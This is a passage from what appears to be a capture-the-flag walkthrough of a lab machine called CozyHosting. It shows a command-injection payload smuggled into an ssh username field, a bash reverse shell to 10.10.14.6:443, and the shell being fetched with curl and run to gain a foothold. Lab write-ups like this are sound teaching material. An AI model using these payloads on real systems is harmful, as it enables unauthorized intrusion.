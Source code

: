 ```
ssh -i [key] 0xdf;{ping,-c,1,10.10.14.6};#@localhost

```

Which expands to:

```
ssh -i [key] 0xdf;ping -c 1 10.10.14.6;#@localhost

```

### Shell

Java applications can be very tricky about piping and special characters in processes, so I’ll go the simple route of writing a Bash script to disk and then running it. I’ll create a reverse shell script locally called `rev.sh`:

```
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.6/443 0>&1

```

I’ll switch my requests over to Burp Repeater for quicker sending. I’ll use `curl` to fetch `rev.sh` from my server:

![image-20240227110456686](https://0xdf.gitlab.io/img/image-20240227110456686.png)

It works:

```
oxdf@hacky$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.230 - - [27/Feb/2024 11:05:08] "GET /rev.sh HTTP/1.1" 200 -

```

But there’s an error in the response:

![image-20240227110642749](https://0xdf.gitlab.io/img/image-20240227110642749.png)

If I move to `/tmp/rev.sh`, it seems to work:

![image-20240227110742338](https://0xdf.gitlab.io/img/image-20240227110742338.png)

I’ll submit another request to run `bash /tmp/rev.sh`:

![image-20240227110809092](https://0xdf.gitlab.io/img/image-20240227110809092.png)

The request just hangs, but at my listening `nc`, there’s a shell:

```
oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.230 51348
bash: cannot set terminal process group (1063): Inappropriate ioctl for device
bash: no job control in this shell
app@cozyhosting:/app$

```
